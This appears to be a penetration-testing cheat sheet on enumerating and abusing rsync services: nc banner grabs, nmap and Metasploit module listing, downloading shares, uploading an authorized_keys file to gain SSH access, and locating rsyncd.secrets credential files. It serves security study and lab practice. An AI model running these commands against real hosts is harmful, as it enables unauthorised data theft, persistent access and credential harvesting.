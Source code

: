 ## Theory

- rsync is a utility for efficiently transferring and synchronizing files between a computer and an external hard drive and across networked computers by comparing the modification timesand sizes of files. It is commonly found on Unix-like operating systems. The rsync algorithm is a type of delta encoding, and is used for minimizing network usage. Zlib may be used for additional data compression, and SSH or stunnel can be used for security.

- Default port : 
PORT    STATE SERVICE REASON
873/tcp open  rsync   syn-ack

---

## Enumeration

```
nc -vn 127.0.0.1 873
(UNKNOWN) [127.0.0.1] 873 (rsync) open
@RSYNCD: 31.0        <--- You receive this banner with the version from the server
@RSYNCD: 31.0        <--- Then you send the same info
#list                <--- Then you ask the sever to list
raidroot             <--- The server starts enumerating
USBCopy        	
NAS_Public     	
_NAS_Recycle_TOSRAID	<--- Enumeration finished
@RSYNCD: EXIT         <--- Sever closes the connection
```

### Try to enumerate "raidroot"

```
nc -vn 127.0.0.1 873
(UNKNOWN) [127.0.0.1] 873 (rsync) open
@RSYNCD: 31.0
@RSYNCD: 31.0
raidroot
@RSYNCD: AUTHREQD 7H6CqsHCPG06kRiFkKwD8g    <--- This means you need the password
```

---

## Enumerate shared folders (This worked well !)

- ```rsync 10.10.10.200::```  => this will list all the shared folders
- ```rsync 10.10.10.200::<shared_folder>```
- Download the folder : ```rsync -rtd ip::<shared folder>```

---

## List the available modules and, optionally, determines if the module requires a password to access:

- ```nmap -sV --script "rsync-list-modules" -p <PORT> <IP>```
- ```msf> use auxiliary/scanner/rsync/modules_list```

- Example using IPv6 and a different port
```rsync -av --list-only rsync://[dead:beef::250:56ff:feb9:e90a]:8730```

- Notice that it could be configured a shared name to not be listed. So there could be something hidden.
Notice that it may be some shared names being listed where you need some (different) credentials to access. So, not always all the listed names are going to be accessible and you will notice it if you receive an "Access Denied" message when trying to access some of those.

- ```rsync -av --list-only rsync://192.168.0.123/shared_name```

- Copy all files to your local machine via the following command : ```rsync -av rsync://192.168.0.123:8730/shared_name ./rsyn_shared```

- The files are transferred in "archive" mode, which ensures that symbolic links, devices, attributes, permissions, ownerships, etc. are preserved in the transfer.

## Credential part

- ```rsync -av --list-only rsync://username@192.168.0.123/shared_name```

- ```rsync -av rsync://username@192.168.0.123:8730/shared_name ./rsyn_shared```

- Upload some content using rsync (for example, in this case we can upload an authorized_keys file to obtain access to the box):

- ```rsync -av home_user/.ssh/ rsync://username@192.168.0.123/home_user/.ssh```


## Find the rsyncd configuration file:

- ```find /etc \( -name rsyncd.conf -o -name rsyncd.secrets \)```

- Inside the config file sometimes you could find the parameter secrets file = /path/to/file and this file could contains usernames and passwords allowed to authenticate to rsyncd.